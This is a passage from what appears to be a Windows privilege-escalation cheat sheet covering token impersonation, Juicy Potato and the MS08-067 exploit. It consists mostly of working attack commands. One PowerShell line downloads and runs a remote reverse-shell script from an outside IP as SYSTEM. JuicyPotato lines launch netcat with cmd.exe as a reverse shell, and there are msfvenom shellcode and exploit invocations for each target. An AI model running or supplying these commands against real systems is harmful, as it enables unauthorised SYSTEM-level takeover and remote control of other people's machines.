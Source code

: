       Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
      Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
      Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"

#### Juicy Potato (abusing the golden privileges)

Binary available at : https://github.com/ohpe/juicy-potato/releases
:warning: Juicy Potato doesn’t work in Windows Server 2019.

    Check the privileges of the service account, you should look for SeImpersonate and/or SeAssignPrimaryToken (Impersonate a client after authentication)

     whoami /priv

    Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
        Windows 7 Enterprise
        Windows 8.1 Enterprise
        Windows 10 Enterprise
        Windows 10 Professional
        Windows Server 2008 R2 Enterprise
        Windows Server 2012 Datacenter
        Windows Server 2016 Standard

    Execute JuicyPotato to run a privileged command.

     JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
     JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
     JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
         Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
         ......
         [+] authresult 0
         {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
         [+] CreateProcessWithTokenW OK

#### Common Vulnerabilities and Exposure

#### MS08-067 (NetAPI)

###### Check the vulnerability with the following nmap script.

      nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>

      https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
      msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

      Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
      Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
      Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
      Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
      Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
      Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
      Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
      python ms08-067.py 10.0.0.1 6 445
